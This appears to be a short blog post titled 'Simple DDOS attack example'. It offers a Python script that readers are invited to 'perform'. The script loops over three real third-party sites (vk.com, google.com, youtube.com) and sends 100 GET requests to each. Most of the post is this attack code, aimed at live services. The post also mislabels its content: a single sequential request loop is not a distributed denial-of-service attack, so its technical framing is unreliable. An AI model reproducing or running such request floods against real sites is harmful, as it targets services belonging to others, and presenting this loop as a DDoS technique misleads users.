 ```yaml
---
title: "Simple DDOS attack example"
date: 2020-03-19
---
```


Here is my example of simple ddos attack that you can perform

DDOS attack code block in python:
```python
    import requests

    sites = ['https://vk.com', 'https://google.com', 'https://youtube.com']
    for site in sites:
        for i in range(100):
            r = requests.get(site)
            print(site, i, r.status_code)
```
